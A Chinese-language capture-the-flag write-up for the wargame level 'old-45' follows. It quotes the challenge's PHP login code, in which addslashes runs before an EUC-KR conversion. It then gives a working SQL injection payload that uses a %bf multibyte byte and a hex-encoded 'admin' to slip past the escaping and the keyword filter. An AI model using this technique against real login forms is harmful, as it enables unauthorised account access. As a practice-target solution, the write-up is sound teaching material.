 # old-45_550

* 這一題一進去就可以看到斗大的提示 sql injection
* 看一下 source code
    ```php=
    if($_GET['id'] && $_GET['pw']){
        $db = dbconnect();
        $_GET['id'] = addslashes($_GET['id']);
        $_GET['pw'] = addslashes($_GET['pw']);
        $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
        if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['id'])) exit();
        if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['pw'])) exit();
        $result = mysqli_fetch_array(mysqli_query($db,"select id from chall45 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
        if($result){
          echo "hi {$result['id']}";
          if($result['id'] == "admin") solve(45);
        }
        else echo("Wrong");
  }
    ```
* 這裡可以看到一個老朋友 `mb_convert_encoding($_GET['id'],'utf-8','euc-kr');` 方便我們有機可趁
* 如果不知道為什麼的話，可以參考一下[這一篇](https://websec.wordpress.com/2012/06/12/secuinside-ctf-writeup-sqlgeek/)
* 解決的話，這一題是真的挺基礎的 sql injection 的，沒什麼技巧，只是要繞過相關的 WAF 而已
* 這是我的 payload `?id=%bf%27%20or%20id%20like%200x61646d696e%23&pw=123`
